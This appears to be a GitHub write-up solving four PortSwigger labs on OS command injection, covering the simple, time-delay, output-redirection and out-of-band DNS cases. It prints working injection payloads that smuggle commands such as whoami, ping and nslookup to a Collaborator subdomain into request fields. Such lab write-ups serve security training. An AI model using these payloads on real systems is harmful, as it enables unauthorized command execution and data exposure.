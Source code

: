 # OS Command Injection
> OS command injection (also known as shell injection) is a web security vulnerability that allows an attacker to execute arbitrary operating system (OS) commands on the server that is running an application, and typically fully compromise the application and all its data. Very often, an attacker can leverage an OS command injection vulnerability to compromise other parts of the hosting infrastructure, exploiting trust relationships to pivot the attack to other systems within the organization.

## Lab 1 : OS command injection, simple case

This lab contains an OS command injection vulnerability in the product stock checker.

The application executes a shell command containing user-supplied product and store IDs, and returns the raw output from the command in its response.

To solve the lab, execute the whoami command to determine the name of the current user.

### Sol :

If we click a product and click check stock. then, we will get the ProductId & StoreId

![image](https://user-images.githubusercontent.com/33444140/236799000-1d2eeac3-d715-48e9-ae44-6bfa91b84c9f.png)

Then, we are giving `|whoami` to know the `Username` 
    
     ProductId=1&StoreId=1|whoami

We got the username and the lab is solved

 ![Screenshot 2023-05-08 151841](https://user-images.githubusercontent.com/33444140/236875721-9bf7a4ac-7f9a-4939-a6b7-e63e5292c5dc.png)
 
## Lab 2 : Blind OS command injection with time delays

This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response.

To solve the lab, exploit the blind OS command injection vulnerability to cause a 10 second delay.
    
### Sol :

* Go to the submit feedback option and give a feedback
* Intercept the connection, then you will see the name, email, subject, message fields
![image](https://user-images.githubusercontent.com/33444140/236868717-e1624987-d07c-4e0e-82d2-54f00405a510.png)

* Here email is the vulnerable one and we will exploit this with time delays
* In email field give command

      email=test||ping+-c+10+127.0.0.1||
      
![image](https://user-images.githubusercontent.com/33444140/236869514-9ddd8a6a-b1cf-459f-8acd-cf2a56154081.png)

* If we run this request the page gets delayed to its loopback address and the lab is solved

## Lab 3 : Blind OS command injection with output redirection

This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response. However, you can use output redirection to capture the output from the command. There is a writable folder at:

/var/www/images/
The application serves the images for the product catalog from this location. You can redirect the output from the injected command to a file in this folder, and then use the image loading URL to retrieve the contents of the file.

To solve the lab, execute the whoami command and retrieve the output

### Sol :

Intercepting the request 

![3rdlab](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/f8a310d1-39f4-4d3b-972f-9f810e8f9371)

![3rdlab2](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/94944035-f8a0-42c2-9998-6e51d2f521f2)

We will redirect the output to a example file by using command

        email=||whoami>/var/www/images/example.txt||

![3rdlab4](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/a341e796-b6f7-49c2-a639-527fab69c0e2)

![3rdlab5](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/1722c173-2af3-4f76-a771-b5c0f84d3d26)

## Lab 4: Blind OS command injection with out-of-band interaction

This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the blind OS command injection vulnerability to issue a DNS lookup to Burp Collaborator.

### Sol :

* Use Burp Suite to intercept and modify the request that submits feedback.

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/122d8b1c-416f-4bf7-a54c-3deb765023da)

* Modify the `email` parameter, changing it to below payload by giving your own burp collaborator domain

      email=x||nslookup+x.BURP-COLLABORATOR-SUBDOMAIN||

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/4e958d39-fa2e-4126-99ca-4b9e5a5980f4)

* Thus, the lab is solved.
